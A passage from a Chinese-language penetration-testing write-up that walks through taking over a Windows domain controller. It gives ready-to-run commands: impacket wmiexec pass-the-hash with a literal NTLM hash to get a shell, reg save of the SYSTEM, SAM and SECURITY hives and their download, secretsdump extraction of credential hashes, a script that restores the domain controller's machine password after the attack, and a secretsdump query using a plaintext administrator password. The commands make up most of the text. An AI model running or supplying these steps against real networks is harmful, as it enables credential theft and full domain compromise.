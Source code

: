 使用`impacket`包内的`wmiexec`直接获取域控`shell`：

  * 

    
    
    python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:7782c491c3a02792f0e86319b29e7a24 Administrator@192.168.31.240

![](https://gitee.com/fuli009/images/raw/master/public/20210810181251.png)

## 0x02 密码恢复

目标机器`hash`长时间为空密码会导致脱域，对域环境产生重大影响，所以在拿到权限后需尽快恢复`hash`。

### 2.1 获取原密码hash

获取目标机器`shell`后，在`cmd`中执行或者上线`CS`后执行命令并下载文件到本地。

  *   *   *   *   *   *   *   *   * 

    
    
    reg save HKLM\SYSTEM system.savereg save HKLM\SAM sam.savereg save HKLM\SECURITY security.saveget system.saveget sam.saveget security.savedel /f system.savedel /f sam.savedel /f security.save

![]()

获取到本地后利用`secretsdump`解析原`hash`：

  * 

    
    
    secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

![](https://gitee.com/fuli009/images/raw/master/public/20210810181252.png)

### 2.2 恢复hash

获取原`hash`后还原：

  * 

    
    
    python3 reinstall_original_pw.py DC 192.168.31.240 aecc311d1181efcde6ff2f744b3060d8

![](https://gitee.com/fuli009/images/raw/master/public/20210810181253.png)

查询域控`hash`是否还原成功：

  * 

    
    
    secretsdump.py seep.cc/administrator:dcadmin@123@192.168.31.240 -just-dc-user 'DC$'

![](https://gitee.com/fuli009/images/raw/master/public/20210810181254.png)

## 0x03 总结
